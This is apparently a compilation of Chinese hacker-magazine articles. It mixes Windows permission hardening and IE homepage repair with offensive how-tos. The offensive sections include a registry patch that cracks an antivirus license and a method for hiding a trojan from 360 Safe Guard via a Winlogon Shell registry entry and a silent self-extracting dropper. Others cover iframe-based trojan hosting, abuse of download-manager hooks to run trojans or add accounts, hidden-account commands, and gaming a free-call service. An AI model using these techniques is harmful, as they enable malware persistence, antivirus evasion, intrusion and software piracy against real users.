我只好冷静下来想想怎样修改注册信息了。以前在做软件的绿化时发现杀毒软件的注册信息的保留无非有几种，像卡巴和 ESET 是把注册信息写在注册表中，只要删除相关的键值就会清除注册信息，并且可以修改来达到破解的目的。另一种就像大蜘蛛或小红伞，在相应的目录下有一个 KEY 文件来注册软件。我在光华的目录下查找了半天也没有找到 KEY 的文件。既然如此，那一定就是在注册表中记录了相关信息。我打开光华杀毒软件的注册表项 `HKEY_LOCAL_MACHINE\SOFTWARE\rygh\vc`，可以看到一个叫 update 的二进制项，这不是明摆着告诉我们这个就是升级信息吗？删除掉这个二进制键，打开软件的“关于”，发现软件的所使用期限已经变为 1901 年了。观察那个二进制数值其实为 16 进制的加密数列，我试着一组一组地修改那个二进制数值，当改到第六组时发现使用期限有了变化，如图1。


图2

终于发现 E3 前面的数值每增大一个，软件的使用期限就会增加 8 天。比如把 99 改为 A0，那么到期时间就会增加到 6 月 30 号，这样增加 4 位就是一个月，E3 这个进一位的话差不多就增加了五年。但是当我关闭后再次打开软件时却发现，又是提示“软件使用期限已到，请充值后重新使用！”，这个刚才不是已经修改好了吗？想想既然不能启动，那它就一定还有别的验证方式，难道是用户 ID 的问题？

我在虚拟机中安装光华，update 前五组改变了。我卸载了光华，修改了系统时间再次安装，这回前六组全改变了。原来 update 是经过加密的安装时间，而不是到期时间。但它是怎么验证到期的呢？后来我再怎么重装软件但是用户的 ID 都没有变，看来应该是使用用户 ID 来判断用户组的。试用的用户 ID 就是 29996，这个用户的使用期限为一个月。它启动时读取 update 键的值，经过解密得到安装时间，再取用户 ID 看到期时间为多少，再读取系统时间，比较是否过期。如果以上不成立就会弹出需要续费的注册框。这样一来，破解就简单了，我们无需破解 update 的加密方式，只需要找到正式用户的 ID 组就可以了。经过尝试大约 118000 到 119000 的使用期限为三年，没有大于三年的用户组，应该那个软件授权最大的就为 3 年版的吧，如图2。

这时我突然想起来就算本地破解了，但是杀毒软件也是需要升级更新的呀。当我点更新时说下载错误，点了多次依然不能更新，我们的 ID 不是合法吗？第二天，当我开机后过了十分钟，突然提示我光华杀毒软件已经更新。我试着进行更新，提示更新成功了，原来是要重启才可以更新的。看来自华并没有联机验证升级 ID 的合法性。总的来说，光华杀毒软件在系统中还是不能做主杀的，它的防护也不是很强，服务还非常占用内存。还是建议把它设置成辅助杀毒，只要关闭光华的监控，再把 VirusClean 服务停止，再设置成禁用即可，那个 GUI 界面使用内存不会超过 1MB。

### 我的地盘我作主——浅谈Windows授权

BaseNet

题框：代码如下：

```vb
Randomize() '初始化随机数生成器
Dim value As Integer = CInt((Int((119000 - 118000 + 1) * Rnd() + 118000))) '产生一个118000到119000的整数随机数
My.Computer.Registry.SetValue("HKEY_LOCAL_MACHINE\\SOFTWARE\\rygh\\vc", "Align", value) '将生成的写入注册表
Label2.Text = value '显示用户ID
```

……总共就四行代码，非常简单的，把这个补丁发给朋友就可以完事了。（本文所涉及到的光盘杀毒软件破解补丁已收录到光盘中）


众所周知，Windows 安全的一个核心内容就是授权机制，这不仅仅包括我们熟知的权限设置、密码安全、域管理等，它的范围相当大，不过我觉得关键点还是理解其思想。作为计算机的“主子”，我们一定要做到“物尽其用，人尽其才”，本文将通过身边的一些实例，希望能和朋友们一起加深理解！

#### 一、实现“二次验证”及Shell授权的重要性

首先，我们要明白为什么要给 Windows 加上二次密码验证。第一，就非联网的计算机来说，多一层密码验证多一份安全，这个世界上最让人害怕的敌人是站在自己队伍中的“内鬼”，“一屋不防，何以防天下”！第二，3389 远程控制是很多人喜欢用的东西，也曾一度被称为 web 入侵的权限补给，使用二次验证可以对远程控制起到事半功倍的效果！

### 1、BIOS密码设置不可不察也

BIOS 密码有两种：一种是超级用户密码，它主要用于进行 BIOS 设置；另外一种是用户密码。如果在 BIOS 设置中选择了启动时验证 BIOS 密码，那么别人要使用我们的计算机，必须知道 BIOS 用户密码和系统登录密码才可以正常使用。这样的设置不仅可以避免“祸起萧墙”的问题，而且如果对方入侵了我们的机器，为了突破某些限制需要重新启动系统的时候，因为需要输入 BIOS 用户密码而导致无法再次进入系统。这样一次“无心”的设置，却换回了系统暂时的安全。

以我的计算机为例，开机按 F2（有的计算机是按 DEL 键），进入 BIOS 设置页面后，定位到 Security 选项卡，如图1所示，按 Enter 键依次设置用户密码和超级用户密码，设置完成后不要忘记将“Password on boot”设置为“Enable”！


##### 2、Shell程序——Windows授权的咽喉

有很多人都会认为世界上最安全的后门是服务器的账户和密码，因此从早些时候的 `net user hacker$ /ad` 添加字符界面的隐藏账户，到超级隐藏账户的 F 值修改，都得到流行。但是如果我们仔细思考一下就会发现，不管什么样的账户，如果没有 Windows 环境下 shell 程序的权限，对计算机的任何操作就无从谈起，所以说 shell 程序是 Windows 授权的一个咽喉一点儿都不过分。因此倘若对其进行权限设置，就可以起到“一夫当关，万夫莫开”的效果。Windows 的 shell 程序对应于 `%systemroot%/explorer.exe` 和 `%systemroot%/system32/cmd.exe`，以 explorer.exe 为例。

首先，我们将它的权限只设置为 administrator 账户，一定要将 system 账户删除掉，赋予 administrator 账户完全控制的权限。这样设置后不怀好意的人无法使用非 administrator 账户登录系统，在 3389 登录的时候就会出现如图2所示的错误提示。我也有过不少 3389 肉鸡，但是好像从没遇到过这样的错误提示，说明现在很多服务器的管理员并没有意识到 shell 授权的重要性。


其次，上面的思路是好的，但是安全是需要配合的，上面的方法需要配合下面的授权方法：

- 对 cacls 的权限进行设置，这样可以防止入侵者通过它修改 explorer.exe 的权限（访问控制列表）。
- 对 `HKEY_LOCAL_MACHINE\SAM` 键进行权限设置，防止克隆账户的产生。
- 我们可以将权限只赋予 administrator 的同时，也可以再添加一个 users 组的账户，用于日常事务的处理。

#### 二、打造“山寨版”U盘加密狗

如果我们有一个 U 盘，也可以搞个“山寨”版的 U 盘加密狗。假如你的计算机中插入 U 盘后，系统分配的盘符为 I。


首先，我们需要在 U 盘根目录建立一个 `start.txt` 的文件，然后让 `start.txt` 作为一个条件，再编写批处理文件 `c:\u.bat`，内容为：`if not exist i:\start.txt shutdown -s -t 0`。

然后和二中的方法类似，再建立一个关机脚本，内容为 `reg import c:\refuse.reg`，这样设置完成后，只有 administrator 才有资格使用 `uu.bat` 导入注册表文件，让系统识别 USB 设备。这种方法看上去麻烦，实际比较隐蔽；若配合 `devcon` 命令与 `runas` 禁用 USB HUB 接口，隐蔽性更强。

最后，在“开始”→“运行”栏中输入 `gpedit.msc` 打开“组策略”，依次定位到“计算机配置”→“Windows 设置”→“脚本（启动/关机）”，在右侧窗口中双击“启动”，如图3，添加 `u.bat` 为开机脚本。这实际上是人为给系统增加了一把锁，而这把钥匙就是 `start.txt`。

- **注意事项：**
  - 使用这种方法一定要结合二中的方法对 `explorer.exe` 进行权限设置，因为别有用心的人可以通过进入安全模式删除我们的开机脚本。
  - 防止光驱启动系统，这只是一个可能性很小的可能；除非脚本丢失或被“临幸”。一般可在 BIOS 中禁用光驱启动，但不建议仅禁用 IDE 通道。


#### 三、打造“民用”移动存储涉密系统

在 XXXX 的官网上看到计算机涉密载体加密程序使用通知，后得到一份程序，分析后发现是软硬结合的加密狗程序：让某台计算机只能使用特定移动存储设备。其思路其实可以手动实现。

首先，在“开始”→“运行”中输入 `regedit` 打开注册表编辑器，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows Script Host\Settings`，导出为 `c:\agree.reg`，再复制一份为 `refuse.reg`，将其中 `start` 键值由 `00000003` 改为 `00000004`。当 `start` 从 3 变为 4 时，系统将不再自动识别移动存储设备。

```bat
@echo off
runas /user:administrator "reg import c:\agree.reg"
```

### 四、作好FAT32分区的“权限设置”

看到标题是不是有点儿唬人。众所周知 FAT32 无法直接进行权限设置。现实中我们往往不得不使用 FAT32（如部分 DOS 恢复工具），这会在 NTFS 环境下带来权限控制缺口。

在 NTFS 系统中，一般权限设置思路是：先对磁盘根或系统盘设置，再对关键目录（如 `System32`）设置，最后对高风险程序（如 `debug.exe`、`net.exe`）进行限制。权限是分层级的，磁盘权限与文件权限并不完全等同。

可采用“FAT32 挂载到 NTFS 目录”的方式：先在 NTFS 分区（如 F 盘）建立 `\caodan\fat32` 目录；在“计算机管理”→“磁盘管理”中先删除该 FAT32 分区盘符，再通过“更改驱动器号和路径”将其挂载到上述 NTFS 空文件夹。

挂载后在 `f:\caodan` 的文件夹属性“安全”中设置权限为“拒绝”，即可限制恶意程序在该 FAT32 分区运行；而 DOS 类恢复工具因直接加载盘符，通常不受 Windows 权限界面设置影响。

上述方法只能解决部分场景。NTFS 与 FAT32 各有特点：NTFS 权限细粒度高但也有复杂性；若系统盘为 NTFS 而外置介质多为 FAT32，需要结合实际策略综合防护。


## 隐爪黑客

若用 `convert` 命令将它们转换成 NTFS，我们可以针对不同的用户将它们隐藏。对于不同的用户给予不同的读取权限，这样不仅可以隐藏数据，还可以防止恶意程序的访问。以 F 盘为 FAT32 分区为例，首先在 C 盘建立 `c:\hide.txt` 和 `c:\show.txt`，其内容如下（双斜杠不要写入文件，这里只是注释作用）：

```txt
//hide.txt
select disk 0
select volume 4
remove

//show.txt
select disk 0
select volume 4
assign
```

上面的 txt 内容是 `diskpart` 程序的参数内容，`select` 用于选定一个硬盘及其分区，`disk 0` 指的是第 1 块硬盘，`volume 4` 指的是 F 盘，`remove` 是删除盘符，`assign` 是分配盘符。

然后，在“开始”→“运行”栏中输入 `control` 打开控制面板，双击“计划任务”，进入计划任务向导，单击下一步，在弹出的窗口中单击“浏览”按钮，选择 `c:\windows\system32\diskpart` 命令，下一步后选择“计算机启动时”，如图5，然后设置上自己登录的帐户。添加完成后在任务属性中“运行”命令处设置为“`c:\windows\system32\diskpart /s c:\show.txt`”，如图6。运行的帐户是自己的登录帐户，这样只要自己登录就会自动分配盘符。同样地，设置本机其他帐户登录时运行“`c:\windows\system32\diskpart.exe /s c:\hide.txt`”（登录时删除分区3的盘符）。


#### 五、防止“艳照门事件”发生

隐私的范围很广，比如你的日记、照片及你从肉鸡上搞到的资料（这点很重要）。由隐私引发的事件太多了，从米特尼克第一次被捕到艳照门都是隐私惹的祸。对于隐私的保护，最简单的方法还是权限设置，不过这里的权限设置不仅只对重要文件进行操作，同时将与其关联的程序也一同进行授权设置。假设我们的系统中有一些敏感的 txt 文件，而打开 txt 文件的默认程序是 `notepad.exe`，我们可以进行如下操作。

首先，我们知道 Windows 权限设置的一个特点就是“拒绝无敌性”。我们先将隐私文件夹的权限设置为“拒绝”，也就是对于任何人都是不可见的，除非文件的所有者对其权限重新设置。然后输入如下内容保存为 `decrypt.bat`。

```bat
@echo off
net user caodan 123abc321 /add && net localgroup administrators caodan /add
echo y|cacls d:\security /g caodan:f
runas /user:caodan notepad.exe
```

保存完代码后，将 `decrypt.bat` 的权限设置为只有 `administrator` 有读取、运行的权限，其它的用户统统删掉。最后再编写如下批处理内容：

```bat
@net user caodan >nul 2>nul&&net user caodan /del !echo ok
```

保存为 `delcaodan.bat`，将其添加到组策略的关机脚本中。这样设置后，要想查看某些敏感的 txt 文件需要运行 `decrypt.bat`，而要运行 `decrypt.bat` 必须有 `administrator` 的权限。当系统关机后，关机脚本会自动分析系统是否有 `caodan` 这个账户，如果存在该账户就会删除，如果不存在就会显示 `ok`。

如果还要玩得更过瘾一点，我们可以让 `decrypt.bat` 中的添加用户代码实现根据系统时间给 `caodan` 帐户添加不同的密码，这在以前的黑文上有类似的文章描述，所以就不再阐述了。

#### 六、向文件感染型病毒说不

去年，我的移动硬盘里不幸中了一个新型的 `Autorun.inf` 病毒，弄得我电脑上收集的很多安全工具都感染了病毒。一旦中了此类文件感染型病毒，当我们运行这些 exe 文件时，就会继续感染。这时候我们可以通过权限授权的方式将它们隔离。

### 1. 未雨绸缪早防范

在没有中毒之前，可以在资源管理器中找到需要保护的文件夹，右击选择“属性”，进入安全选项，然后在“组或用户名称”列表中只保留当前登录用户和 `system` 组。选择当前登录用户，取消“修改”和“写入”权限，点击“确定”后退出。很多人权限设置只针对系统盘，殊不知非系统盘的防范也很重要。

##### 2、身处险境急加固

如果病毒已经感染了系统，可能你无法通过上面的方法修改权限，那么可以使用 **cacls** 命令完全锁住文件，使它无法进行传播。在“开始”—“运行”栏中输入 `cmd` 启动命令提示符，输入如下命令：`cacls e:\hackertools /t /c /g username:r`。使用 `cacls` 命令行来修改权限，实际上是对系统中的 ACL 访问控制列表的修改。

通过上面的几个实例，我们得出一些“经验”：第一，授权设置主要体现在权限设置上，而权限设置一定要尽量将权利集中到某一个特定帐户上，组权限该去的就应该去掉。第二，权限设置一定要思考最关键的地方，抓住其关键的位置可以“一招制胜”。第三，密码与帐户是一体的。第四点，要活学活用，多种授权方法相结合，才可以事半功倍。

## 是谁“篡改啦”的烦恼

> £ 情乱 € 如风


卡巴斯基的主动防御很强大，许多小菜鸟都很喜欢它。但使用某些 KEY 获取器时会带来主页被篡改的问题（如 `www.68la.com`），IE 主页难以改回。本文介绍该问题原理及修复办法。

其原理大致是：授权码嵌入了恶意修改注册表的程序，运行后会篡改浏览器主页。即便手工修改，重启后也可能再次被改写。常见方案如卸载浏览器、清理注册表、重装等较繁琐，因此给出更直接的方法。

**方法一：** 打开“开始”-“运行”，输入 `regedit`，查找 `www.68la.com`。将相关项中“数值数据”里的恶意 URL 删除，恢复为正常 `iexplore.exe` 路径；继续查找并清除所有相关条目。随后在 IE 快捷方式属性中删除目标栏尾部追加的网址参数（如 `http://www.68la.com/?ie`），保留浏览器可执行文件路径，再重新设置主页。

**方法二：** 使用 360 安全卫士，进入“高级”后选择“修复 IE”，点击“立即修复”。修复完成后，再按方法一中修改 IE 快捷方式目标项的步骤处理一次，即可解决。


**方法三：** 使用 KEY 获取器前先开启影子系统，仅保护系统盘，下载得到的 KEY 放到其它磁盘，再重启，以避免主页被篡改。也可改造获取器以不修改 IE，但风险较高，需谨慎操作。

### 菜鸟也能为 Windows 7 打补丁

周怜生


最近，关于 Windows 7 的测试活动正开展得如火如荼。7月13日，Windows 7 Build 6.1.7600.16384 在网上泄漏出来了，不久就有小道消息称这是 RTM（release to manufacturing）候选版本之一，一时间该版本的 ISO 文件在网上遭到疯狂下载。不料，翌日就传出该版本存在 UI BUG（边框界面溢出）。三天后，Windows 7 Build 6.1.7600.16385 又泄漏了出来，但直到 7月23日，微软高管 Larry Osterman 才确认它即为 Windows 7 RTM 版本，至此各种揣测谣言方才平息。但尽管如此，也并非就意味着该版本完美无瑕了。不信？请打开 Windows Media Center 播放几首歌曲，再将列表固定，然后右击 Windows Media Center 在任务栏的图标看看，在图1的列表中，每首歌曲名称与每个歌手名字之间总有个让人觉得莫名其妙的“乘”字吧！


```bash
listdlls -r ehshell.exe > ohshell.doc
```

> ### 小提示
> ListDlls 的用法格式为：  
> `listdlls [-r] [processname|pid]` 或 `listdlls [-r] [-d dllname]`。  
>  
> God is a girl 乘 Groove Coverage  
> 不是因为寂寞才想你 乘 T.R.Y  
> 海角七号 乘 东来东往


其实，这是因为中文版 Windows 7 理所当然地将英文“BY”误翻译成“乘”造成的，这显然不符合“信、达、雅”的翻译原则，因此必须进行修改。当然了，如果还能将歌曲和歌手调换一下次序，无疑就更符合中国人的阅读习惯了。什么？你是菜鸟，不会？这其实也不是什么太难的事，无非就涉及到个别 DLL 文件，找到它们，然后修改一下就行了！

- 1. 点击 Windows 徽标键，运行 Windows Media Center，同时按下 Ctrl+Alt+Del 调出“启动任务管理器”，在“应用程序”选项中选择“Windows Media Center”并右击，选择“转到进程”，定位到 `ehshell.exe` 进程（如图2）。
- 2. 下载 LISTDLLS（`http://download.sysinternals.com/Files/ListDlls.zip`），将 `listdlls.exe` 移动到 C 盘根目录。切换到 Windows Media Center 播放几首 MP3 并固定到播放列表，右击任务栏图标，选择“所有程序”→“附件”→“以管理员身份运行”命令提示符，切换到 C 盘根目录后执行：`listdlls -r ehshell.exe > ohshell.doc`。

这样，我们就搜集了 Windows Media Center 运行时使用到的所有文件。将它们全部复制到某个文件夹下，将所有包含 `mui` 的扩展名去掉，比如 `ehres.dll.mui` 改为 `ehres.dll`，然后用 Resource Hacker（下载地址为 `http://www.greendown.cn/soft/1957.html`）打开，看看究竟是哪个文件在捣鬼？经过一番检索，可以确定 `ehres.dll` 就是我们要找的“元凶”。

- 1. 使用 Resource Hacker 打开 `ehres.dll`，依次展开左边栏“字符串”→“1101”→“2052”，在右边脚本栏找到“17006, "{0} 乘 {1}"”，修改为“17006, "{1} - {0}"”，点击“编译脚本”并保存修改后的文件（如图3）。


- 2. 将 `ehres.dll` 重新更改为 `ehres.dll.mui` 文件名，然后用其替代系统安装目录中对应的同名文件（如 `C:\Windows\ehome\zh-CN` 及 `C:\Windows\winsxs\...` 目录）。
- 3. 打开控制面板，依次点击“所有控制面板项”→“用户帐户”→“更改用户帐户控制设置”，继续后续权限设置与替换操作。

拉条拉至“从不通知”，从而关闭 UAC 功能，如图4。同样“以管理员身份运行”命令提示符，输入 `mcbuilder.exe` 来重建 MUI 缓存。


4．重启电脑，再运行 Windows Media Center，看看是不是已经成功了？如果锁定列表中仍然有“乘”字的，就右击列表中文件名将其从列表中解锁再删除，然后再重新打开这些媒体文件，看看确实不一样了吧，如图5！

### 小技巧过360安全卫士

许建轩（xjx363631317）

经常看杂志的都知道，稍微修改一下木马的路径和名称就能躲过 360 安全卫士的查杀。可木马在添加自身为系统服务等自启动项目时，就会被 360 安全卫士拦截，这样就会在用户面前露出马脚了，如图1。于是我便到网上搜索过 360 安全卫士提示的方法，结果还真的找到了，感觉方法既挺简单也不错，所以就共享出来给各位叉子吧！

`HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Winlogon` 这个位置添加木马为自启动就可以了，具体来看我的操作。


首先配置一个木马，例如 `muma.exe`（当然，实际操作中可不能起这么显眼的名称），配置时注意不要选择“添加自身为系统服务”等自启动方式，如图2。“安装路径”我选择的是 MSInfo 目录，即 `C:\Program Files\Common Files\Microsoft Shared\MSINFO\`，这样当服务端运行后就会将自身复制到 MSInfo 目录里。接下来新建一个文本文档，输入以下代码：


其实 360 安全卫士每隔一段时间就会对注册表的一些自启动项目（包括系统服务）的键值建立一次快照，当发现两次的快照有改变时，就提示用户“XX程序想添加自身为自启动项目，是否允许？”。而我要介绍的这种方法，就是利用其监控的一个小 bug。说白了就是 360 安全卫士漏了一个自启动的位置，听起来很汗颜但事实如此——我们只要在注册表的……

```reg
Windows Registry Editor Version 5.00

[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]
"Shell"="explorer.exe C:\\Program Files\\Common Files\\Microsoft Shared\\MSINFO\\muma.exe"
```

### 傻瓜黑客


`muma.exe` 和 `muma.reg` 后，右击选择“添加到压缩文件”，如图3。将“压缩选项”中的“创建自解压缩文件”前面的勾选上，如图4，然后切换到“高级”选项，点击那个“自解压选项”，弹出了“高级自解压选项”，如图5。解压路径可以随便填写，但最好找个隐藏一点的，我填写的是“C:\Program Files\Internet Explorer”，再在下面的“解压后运行”中写上 `regedit /s muma.reg`，“解压前运行”写上 `muma.exe`。接着切换到“模式”选项，在“安静模式”中选择“全部隐藏”，下面的“覆盖模式”中选择“覆盖所有文件”，如图6。再切换到“文本和图标”选项，在“从文件加载自解压文件图标”旁点击“浏览”，选择自解压包的图标，如图7，最后点击“确定”就行了，生成的自解压文件就能过 360 安全卫士了。

不过要注意一下，该方法有一定的时效性，等哪天这个小 bug 被补上了就没法利用了。

### 免费领取MSN送的卡巴2010半年激活码

txcbg


很多叉子对卡巴斯基反病毒软件（俗称卡巴）应该不会陌生吧，这可是一款功能很强大的杀毒软件。前不久卡巴斯基推出了最新版的卡巴斯基2010，功能有了进一步的加强，界面也和以前版本有所不同。如果想继续使用的话，就需要卡巴斯基反病毒软件2010的激活码才行（不同版本激活码不能通用）。正当我们满网络上寻找激活码的时候，卡巴斯基开始向中国 MSN 用户免费赠送卡巴斯基反病毒软件2010半年激活码了，只要你有一个 MSN 帐号就可以免费领取到半年激活码，其官方活动地址为 `http://kaba.msn.com.cn/`，如图1。

如果你还没有 MSN 帐号的话，可以点击给出的申请链接来申请一个。有了 MSN 帐号后有两种方法可以获得激活码：如果你的电脑没有安装 MSN 聊天软件，可以点网页中的“点击登录”按钮，在登录网页中用你的 MSN 帐号登录后就会获得激活码。激活码以红色大字体显示，并且下面给出了下载卡巴斯基反病毒软件2010的链接，你可以直接点击它来安全地下载卡巴斯基反病毒软件2010，如图2。


如果你的电脑上已经安装了 MSN 聊天软件，在已经成功登录 MSN 的情况下直接点击网页上的“添加小美为我的好友”，就会出来确认添加 `msn.help@live.cn` 为联系人的对话框。`msn.help@live.cn` 是官方活动机器人，点“确定”，然后按提示操作就可以添加 `msn.help@live.cn` 为联系人了。双击添加为联系人的“小美”，通过对话框输入“我要卡巴斯基激活码”，小美机器人就会直接回复你激活码，如图3。最后，我在虚拟机里安装了一下卡巴斯基反病毒软件2010，用获得的激活码成功地激活了，如图4。

想使用卡巴斯基反病毒软件2010又苦于找不到激活码的朋友，就快来免费领取 MSN 送的卡巴2010半年激活码吧。

### 网站挂马两不误

无敌小龙

大家都应该知道永硕网络E盘吧，该E盘推出后就一直受到热捧，其原因就是下载速度稳定，并且还提供独立的二级域名，因而管理和访问都十分方便。我们可以先到 `ys168.com` 的官方站点注册一个帐号，如图1。

当然，今天的重点并非如此，而是要教大家如何通过这个免费的网络E盘实现我们刷站和挂马的目的。在开通了我们的站点后，现在来新建一个目录，目录名称可以任意，但是署名一定要修改为一个星号，如图2。

接下来将以下的代码保存到一个记事本文档中，文件名称为 `HOME.TXT`，注意这里一定要是这个文件名称。

```html
<style type="text/css">
<!--
body {
    margin-top: 0px;
```


### 傻瓜黑客

```html
-->
</style>
<center>
<title>标题</title>
<IFRAME marginWidth=0 marginHeight=0 src="http://www.baidu.com/" frameBorder=0 width=100% scrolling=no height=1100></IFRAME>
```

将这个文件上传到我们的网络E盘中，此时单击刷新按钮，或者重新登录我们的网络E盘，将会发现一个神奇的框架页面呈现出来了。如果这个页面是一个挂马页面，那么后果可想而知，如图3。


### 540分钟电话“套餐”每月免费打


Komy-D

暑假这段时间可真是难熬啊，不能和女朋友见面，每天只好煲电话粥了。不过好在很少花钱，因为我们一个月有免费540分钟的“套餐”。今天我就把自己的诀窍分享给叉子们，像我这样穷的叉子可有福了O(∩_∩)O。

叮铃铃是一个SNS交友社区，我们可以在这个社区中写博客、玩游戏、交友等。更重要的是，注册时通过手机语音验证的会员可以享受每月赠送的270分钟免费手机通话时长（某叉子：你不是说540分钟吗？难道敢耍我们？）！大家不要急躁，往下看就知道了。

首先登录叮铃铃的官方网站 http://www.dilingling.com/ ，在主页的右上角点击“登录”，进入叮铃铃社区，如图1。

我们需要注册一个帐号，点“会员注册”进入注册页面，填写完成后提交注册。网站会要求上传头像、填写详细信息，我们一一跳过。接下来的免费验证手机是至关重要的一步，因为只有验证手机后才能享受免费通话，如图2。填写手机号和验证码后，点“免费验证手机”，然后大约等待5秒钟，系统就会自动拨通我们提交的手机。听到语音播报的4个数字，把刚才听到的数字输入下面的输入框中，最后进行确认提交，这样我们就注册完成了。


要想免费通话，需要添加好友，并且对方也通过手机验证才行，是不是觉得条件有些苛刻？不过没关系，我们可以为对方申请验证帐号嘛！虽然有些麻烦，但是免费电话也很诱人的。按照前面的步骤为对方申请一个帐号，并且也通过手机验证。最后就是至关重要、激动人心的时刻了，在社区个人管理首页中的“快速定位”中输入对方的帐号，如图3，然后就来到如图4所示的页面。看着页面中那个“打电话给TA”是不是很让人心动？先把对方加为好友吧，通过验证后我们在通讯录中可以看到对方，直接点电话的小图标就免费通话了，如图5。叮铃铃会接通我们的手机，按“#”号键确认通话就可以接通对方了。


免费电话我们一天可以打3个，每个3分钟，一月30天也就是270分钟。如果登录对方的帐号，用TA帐号打的话，就翻倍成540分钟了，我就是这么做的O(∩_∩)O。

### 下载工具中潜在的危险

swan

> 友情提醒：利用网络进行违法行为将承担相应法律后果。

首先给大家出一个难题，就是你能否让下载工具在下载任何一个文件的时候执行命令。这命令当然包括打开网页（网马）、运行程序（木马），或者是解压下载好的压缩文件。如果你尚且没有头绪，那么就跟着我的思路慢慢来揭开这个谜底吧。

我经常会收集一些鲜为人知的电脑技术。那天刚好看到一篇关于如何让FLASHGET下载完自动解压的文章，于是就进行了几十分钟的测试。其方法就是在FLASHGET的病毒防护这个功能中做文章。具体就是打开快车，选择菜单栏上的“工具”→“选项”，打开选项设置窗口，在“任务管理”下就可以看到“安全相关”这一栏了，如图1。


设置这个功能，主要是为了方便用户下载完之后进行查毒。一般正常的使用是勾上“下载完成后杀毒”，然后浏览到杀毒软件的主程序。默认监控类型有很多，这里我只以“ZIP”进行示范。

这个软件设置的原理其实我们可以这样理解：就是当这个文件下载好的时候，我们把文件手动拉向杀毒软件的主程序。其实我们这样做也是可以对目标程序进行杀毒的，有没有这个感觉呢。

不相信吗，我可是有证据的。使用QVOD播放器代替杀毒软件，如果这个播放器打开了我们下载的文件，那就证明我是正确的了，如图2。


通过上面我们已经知道，只要我们的程序可以对下载的文件进行操作，具体说比如可以打开、播放等，那么这样设置就不同于直接运行这个程序，反之亦然。起初我们没有想那么多，只是把杀毒程序改为net.exe这个程序，然后参数上乱设置一通，以为就可以添加一个账户了。其实按上面的理论来，这个方法是行不通的。之后我突然想到，这个“杀毒”程序干嘛一定要是系统有的程序，能不能是我自己构建的文件，比如批处理、木马啊。

把上面那些思路再整合一下，我把批处理和木马程序当做杀毒软件，把任何一个文件往它们身上一拉，发现批处理和木马都运行了。这也意味着如果浏览到我的批处理和木马，下载之后，命令就会执行，木马也会运行。我使用PCSHARE配置好一个木马，然后根据我的思路进行实验，果然在下载完文件后，木马成功上线了。大家仔细看一下图中的时间，如图3。


图3


图5


图4

经过测试，直接通过更改下载工具的配置文件就可以设置我们下载的时候调用的文件。我以迅雷来进行说明，如图6。我们可以直接覆盖它，下载工具重新启动就可以为我们进行必要的工作了。大家可以把这个发现作为一种另类自动木马的方式，或者是添加用户的后门。当然这只是小范围的扩展，其实大多数软件在方便用户的同时也带来了潜在的危险，比如腾讯使用命令行重新运行QQ，就反而导致了HASH的被盗。

来继续发散一下思维：一个批处理可以执行，也就代表着我们可以为服务器源源不断地添加账户。当然前提是管理员要经常下载东西。当然我们也可以让批处理下载木马运行，但批处理会出现黑框，我推荐更换成VBS。到这里不要认为就完了，我们也要看看其它下载工具类似的应用，结果发现迅雷也存在这样的功能，如图4。最后我也尝试直接在上面写上一个网址，结果下载完居然也打开了，这不是让我有机会做坏事情嘛，如图5。


图6

### 使用工具自动获取NOD32升级ID

林中闲人 & 孤独

#### 一、NOD32不仅要免费还要自动获取并填写

最近免费的NOD32 ID发布网站 www.nod321.com 关闭了，ESET升级帐号获取器也停止了更新，看来互联网的免费午餐真的是越来越少了，如图1。大家正在为找NOD32的升级ID而发愁吗？我也和你们一样，或许大家找不到免费的升级ID会选择别的杀毒软件，但是我不会。本来想把这个工具留着自己用，但这又不是叉子的精神，所以只好分享给大家了。

ESET ID自动获取填写工具的使用非常简单，我们只需要双击它，它就会自动验证电脑中的ID，如图2。如果ID无效的话，马上就会进行更换并验证，如图3；验证有效后进行更换并在3秒钟后自动退出，如图4，是不是很智能呀。


图1

为了能够达到全自动，大家可能想到了把它放到启动里，每次开机就会自动验证一次，如果无效就会自动更换，有效就继续使用，省去了我们人工去操作的麻烦。如果你经常帮别人维护系统，不明白电脑的朋友会经常找到你说杀毒软件到期了而让你去帮忙，是不是很麻烦呢？这样就可以一劳永逸了。除非软件停止更新，否则我们就不用去管NOD32了，全交给它吧。


#### 二、全自动获取ESET升级ID

早上起来，一打开电脑我就发现ESET升级ID又被“拉黑”了。不知道是不是我RP问题，每获取一个有效的ID没过几天就被封了，总这样下去也不是办法。于是我就到网上找了一下，结果找到了一款很好的获取器。如果你也使用ESET杀毒软件的话，那么这款软件不容错过。

版本，如图8。使用后我感觉这款软件真的很不错，虽然是款免费软件，但却没有恶意程序，也不会修改主页，实在是获取ESET升级ID的首选。

（本文所涉及到的精囊ID获取器V1.7.1.2、ESET ID自动获取填写工具已收录到光盘中）


首先电脑上要安装任意版本的ESET杀毒软件（否则获取器运行后会自动删除），然后运行“精囊ID获取器V1.7.1.2”（以下简称为“获取器”）。运行后程序会自动配置杀毒软件，配置完成后就自动获取升级ID并导入，如图5。接着杀毒软件就会进行更新了，如图6。每次开机获取器都会验证ID是否有效，如果无效就获取ID并导入。

右键点击获取器图标，可以设置为开机启动、选取方式、验证方式等，如图7。“我的网盘”则是作者的E盘，我们可以在这里下载新版本，如图8。


### 一个路由器引发的血案

火の魂


某月，小菜我正在上网，突然感觉网速慢了下来，不会中招了吧！？经过仔细检查，并无中招迹象，那到底是怎么回事呢？我只开了网页，网速没有理由变慢啊？等等，我家使用的是无线路由器，又没有设置密码，会不会？

想起前几期杂志上的“蹭网大餐”，我一下子明白了。为了验证我的想法，我在地址栏输入“http://192.168.1.2”进入路由器管理，点击在线用户列表，果然……除了我之外，还有另一位不速之客正通过我家的无线路由上网，还列出了他的MAC地址。

小样，居然敢蹭我的网，也不看看我是谁（其实我也很菜的）。我第一个念头就是利用路由器的MAC禁止功能把那个不知好歹的家伙拒之门外。可正当我要行动的时候，另一个更邪恶的念头在脑海里闪过……

要知道，通过同一个路由器（不管是否为无线路由器）上网的电脑是处在一个局域网中的。嘿嘿，送上门的试验品不要白不要，赶紧翻出今年第5期杂志的第8页，也就是txcbg老师写的“局域网大作战”，小菜我正苦于没地方实践呢！

